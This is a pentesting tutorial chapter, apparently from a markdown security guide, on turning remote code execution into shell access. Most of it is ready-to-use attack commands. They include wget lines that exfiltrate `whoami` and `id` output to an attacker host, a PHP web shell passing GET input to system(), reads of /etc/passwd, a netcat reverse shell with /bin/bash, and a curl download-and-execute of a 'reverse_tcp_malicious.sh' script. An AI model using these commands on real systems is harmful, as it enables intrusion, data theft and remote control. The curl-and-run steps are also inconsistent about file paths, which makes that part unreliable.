 # (PART) Vuln exploit & Gaining Access{-}

# Beyond Remote Code Execution {-}

**Remote code execution** occurs after some vulnerabilities exploitation and allows users to execute
operating system commands on a remote system. 

You always have to be aware of command type execution language. Sometimes bash command are not working, so try with
languages. If the website is in php try to call phpinfo(); for example. Then you will know that your remote code execution will
look like system('whoami');

## Checking if code execution occurs {-}

Sometimes attacker don't realy know if remote code execution occurs because no direct output are visible
to him. Here we will see some technics to know if code execution runs or not.

### Time sleep technic {-}

```bash
GET /script.php?cmd=sleep+5&ok=ok HTTP/1.1
```

### Check network connectivity {-}

Lets try to ping the attacker machine, attacker can use wireshark or tcpdump.

On the attacker machine listen to icmp connection

```bash
tcpdump icmp
```
remote code execution ping

```bash
ping -c 5 <attacker ip>
```

### Use wget and netcat to execute command {-}

1. listener (attacker)

    ```bash
    nc -nlvp 443
    ```
2. powned (victim)

    ```bash
    wget http://<pirate_ip>:443/`whoami`
    ```

> [ ! ] NOTE: for big files or also for php files use the | base64 command 
> ```wget http://<pirate_ip>:443/`id|base64` ```


## Visible remote code execution {-}

**Visible remote code execution** can be performed with code looking like that:

```php
<?php
echo "<html>";
echo "<pre>";
echo "<form method=GET><input type=text name=cmd style='width:400px;'>";
echo "<input type=submit value=Execute style='height:34px;'></form>";
$a = system($_GET["cmd"]);
echo "</pre></html>";
?>
```

When the remote code execution response is visible, there are some things to check:  

- Which user serves the service  
- Where  
- Interesting files content  
- Binaries  


```bash
ifconfig
whoami
id
pwd
cat /etc/passwd
cat /etc/group
which python
which curl
which nc
which wget
```

## Gaining access throw remote code execution {-}

### Listen and connection with netcat {-}

**Netcat** also known as **nc** is a utility that allows to open TCP or UDP connections throw the network.

How it work:

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    nc -e /bin/bash <pirate_ip> 443
    ```

### Connection with curl {-}

1. attacker http server (attacker)  

    ```bash
    python -m http.server 9090
    ```

1. powned (victim)  

    ```bash
    mkdir /tmp/r
    curl http://<pirate_ip>:9090/reverse_tcp_malicious.sh -o /tmp/r
    chmod +x /tmp/r/reverse_tcp_malicious.sh
    ```

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    /tmp/r
    ```



# Spawning a terminal from a shell {-}

After a successfull connection it's important to prepare the shell to be able to work confortably.
The following command are always the same:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

> [ ! ] Note: stty -a is done in the attacker shell to know rows and columns size









